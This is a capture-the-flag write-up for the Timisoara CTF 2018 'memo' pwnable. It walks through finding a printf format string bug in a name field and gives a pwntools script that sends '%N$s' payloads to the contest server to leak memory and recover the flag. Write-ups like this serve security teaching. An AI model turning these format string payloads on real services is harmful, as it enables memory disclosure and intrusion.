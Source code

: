 # [Timisoara CTF 2018] memo (Pwnable-70pts)

## Discovery time !

In this task we were given a binary and `host:port` of the server.

when we connect to the server the binary ask us	for our name and display three numbers on the screen for one second. For each number, it asks us what number was on the screen. If we	have entered the three good numbers, it displays "You have a very good memory `the name you entered`" followed by	"Bye!".

    $ nc 89.38.210.128 31339
    Your name? > user1
    Let's play
    What number was on the screen? 42
    Good memory!
    What number was on the screen? 77
    Good memory!
    What number was on the screen? 111
    Good memory!
    You have a very good memory user1
    Bye!

After trying several times we realize that the binary always display the same numbers.

## Reverse time !

Now that we have discovered the binary it's now time to reverse it!
So we have disassembled the binary with radare2 and something quickly attracted our attention:
    
    $ r2 ./memo
    [0x00400a00]> pd 200 @main
     ;-- main:
     0x00400b00      55             push rbp
     0x00400b01      4889e5         mov rbp, rsp
	 ...
     0x00400dcf      48bf82114000.  movabs rdi, str.You_have_a_very_good_memory ; 0x401182 ; "You have a very good memory "
     0x00400dd9      b000           mov al, 0
     0x00400ddb      e840fbffff     call sym.imp.printf
     0x00400de0      488d7db0       lea rdi, qword [rbp - 0x50]
     0x00400de4      89854cffffff   mov dword [rbp - 0xb4], eax
     0x00400dea      b000           mov al, 0
     0x00400dec      e82ffbffff     call sym.imp.printf
     0x00400df1      48bf9f114000.  movabs rdi, str._nBye_      ; 0x40119f ; "\nBye!"
     0x00400dfb      898548ffffff   mov dword [rbp - 0xb8], eax
     0x00400e01      e8eafaffff     call sym.imp.puts
     ...

In the above extract we can see that the binary is doing something like this:

    printf("You have a very good memory ");
    printf(some_variable);
    puts("\nBye!");
 
So we can suppose that there is a format string vulnerability here.

We test with a format identifiers in our name to check that:

    $ nc 89.38.210.128 31339
    Your name? > %s
    Let's play
    ...
    You have a very good memory (null)
    Bye!
And we see that `%s` is interpreted by printf.
We definitely have a format string vulnerability here !
 
## Pwn time !

And finally, now that we found a vulnerability let's exploit it !

We found a **format string vulnerability** that means we can read all the program memory and even write in it !

First, we code a little python script to read the memory:

```python
    from pwn import *
    import sys

    i = 0
    while True:
        i += 1
        try:
            r = remote('89.38.210.128', 31339, level='error')
            r.recvuntil("? > ")
            r.sendline("%" + str(i) + "$s")
            r.recvline()
            r.sendline("42")
            r.recvline()
            r.sendline("77")
            r.recvline()
            r.sendline("111")
            r.recvline()
            sys.stdout.write(r.recvline())
            r.close()
        except EOFError, exception:
                pass
```
We run it:

    $ python pwner.py
    You have a very good memory You have a very good memory n? 
    You have a very good memory 
    You have a very good memory H=���s1�H\x83�\xfe�
    ...
    You have a very good memory 1�I��^H\x89�H���PTI���@
    You have a very good memory timctf{t0_4rr1ve_4t_th3_s1mple_is_d1ff1cult}
    You have a very good memory (null)

**Et voilà !**
